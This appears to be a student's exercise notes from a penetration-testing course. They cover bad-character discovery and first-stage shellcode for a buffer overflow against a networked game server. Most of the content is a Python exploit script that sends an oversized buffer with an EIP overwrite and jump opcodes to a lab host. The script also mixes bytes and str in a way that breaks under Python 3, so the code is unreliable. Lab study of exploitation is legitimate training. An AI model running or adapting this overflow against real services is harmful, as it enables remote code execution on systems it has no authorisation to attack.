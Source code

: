 ### 12.5.1.1 Exercises
#### 1. Determine the opcodes required to generate a first stage shellcode using msf-nasm_shell.

![image-20200709175951696](.12.5.1.1.assets/image-20200709175951696.png)

#### 2. Identify the bad characters that cannot be included in the payload and return address.

I already excluded \x00 because we are dealing with a string and found that only \x20 caused any issues.

With \x20

![image-20200709181925897](.12.5.1.1.assets/image-20200709181925897.png)

Without \x20

![image-20200709182036705](.12.5.1.1.assets/image-20200709182036705.png)

Code with x00 and x20 removed

```python
#!/usr/bin/python3
import socket
host = "192.168.216.44"
badchars = ( b"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
        b"\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f"
        b"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
        b"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
        b"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
        b"\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
        b"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
        b"\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
        b"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
        b"\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
        b"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
        b"\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
        b"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
        b"\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
        b"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
        b"\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff" )
eip = b"\x42" * 4
crash = b"\x41" * (4368 - len(badchars))
first_stage = b"\x83\xc0\x0c\xff\xe0\x90\x90"
buffer = b"\x11(setup sound " + badchars + crash + eip + first_stage +"\x90\x00#"
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
print ("[*]Sending evil buffer...")
s.connect((host, 13327))
print (s.recv(1024))
s.send(buffer)
s.close()
print ("[*]Payload Sent !")
```

